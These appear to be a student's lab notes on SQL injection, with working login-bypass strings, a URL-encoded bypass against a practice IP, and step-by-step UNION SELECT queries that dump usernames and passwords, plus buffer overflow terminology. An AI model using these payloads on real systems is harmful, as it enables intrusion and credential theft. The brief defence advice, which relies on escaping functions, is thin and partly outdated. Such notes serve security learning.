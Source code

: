 ```
Research Database Schemas and what information they provide
php?item=4 UNION SELECT 1,table_name,3 from information_schema.tables where table_schema=database()
What are information_schema and database()?
```
# Defending Against
```
Validate inputs! Methods differ depending on software
concatenate : turns inputs into single strings or escape characters
PHP: mysql_real_escape_string
SQL: sqlite3_prepare()
```
# SQL post and get methods
```
' OR 1='1 (enter into username and password) (post method)
click F12 and find the post request, go to the request tab, click raw then add a ? to end of url with the raw you get at the end and we get all user logins (get method)
example http://10.50.29.140/login.php?username=%27+OR+1%3D%271+&passwd=%27+OR+1%3D%271+
```
# Sql vulnerablity
```
10.50.29.140 for practice on how to do sql injections
(Post method)
1) Identify vulnerable field (example V)
 [name]' OR 1='1 with all the things to get what is vulnerable
2) find number of columns we can see (example V)
 [name]' UNION SELECT 1,2,3,4,5 #
3) Dump the data base and write down everything that is user created
   [name]' UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns # (since are golden rule only has 3 things to look at we had to add numbers where it would show us the infor we wanted)
4) get the info from the correct fields
   [name]' UNION SELECT username,2,passwd,jump,5 FROM [usercreatedfield].userinfo # the fields should look like this when looking things up
(Get Method)
1)click on first link and test if it is vulnerable =1 OR 1=1 and continue till it works
2) put Union SELECT 1,2,3 and so on till you find out how it what is available
3) @@version will give what ther version of the data base is.
```
# Exploit Development

# Buffer Overflow Common Terms
```
Heap: Memory that can be allocated and deallocated
Stack: A contiguous section of memory used for passing arguments (our goal is to put executable code into the stack)
Registers: Storage elements as close as possible to the central processing unit (CPU)
Instruction Pointer (IP): a.k.a Program Counter (PC), contains the address of next instruction to be executed
Stack Pointer (SP): Contains the address of the next available space on the stack
Base Pointer (BP): The base of the stack
Function: Code that is separate from the main program that is often used to replace code the repeats in order to make the program smaller and more efficient
Shellcode: The code that is executed once an exploit successfully takes advantage of a vulnerability
```